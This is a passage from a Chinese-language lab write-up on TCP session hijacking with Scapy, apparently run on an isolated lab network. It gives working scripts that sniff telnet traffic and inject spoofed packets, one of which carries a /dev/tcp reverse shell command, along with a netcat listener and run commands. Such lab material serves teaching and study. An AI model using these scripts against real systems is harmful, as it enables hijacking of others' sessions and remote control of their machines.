    data = "\rls\r"
    #############################################

    pkt = ip/tcp/data 
    send(pkt,verbose=0)
    ls(pkt)
    quit()

f = 'tcp and src host {} and dst host {} and src port {}'.format(server, client, PORT)
sniff(filter=f, prn=spoof, iface="br-6c895804349d")
```

运行: `sudo python3 hijacking_auto_simple.py`

结果：

攻击机发送消息



服务器回应



### 4.4 Scapy 自动劫持反向shell


攻击机使用netcat监听

`nc -lvnp 9090`



劫持并反向shell

hijacking_auto_shell.py

```python
#!/usr/bin/python3
from scapy.all import *

server  = "10.9.0.2"   # Server IP
client  = "10.9.0.3"   # Client IP
PORT = 23             # Server telnet port

def spoof(pkt):
    old_ip  = pkt[IP]
    old_tcp = pkt[TCP]

    #############################################
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, ack = old_tcp.seq + len(old_tcp.payload), flags = "A")
    data = "\r/bin/bash -i > /dev/tcp/10.9.0.3/9090 0<&1 2>&1\r"
    #############################################

    pkt = ip/tcp/data
    send(pkt,verbose=0)
    ls(pkt)
    quit()

f = 'tcp and src host {} and dst host {} and src port {}'.format(server, client, PORT)
sniff(filter=f, prn=spoof, iface="br-6c895804349d")
```

开始劫持会话

运行: `sudo python hijacking_auto_shell.py`



反向shell开启成功

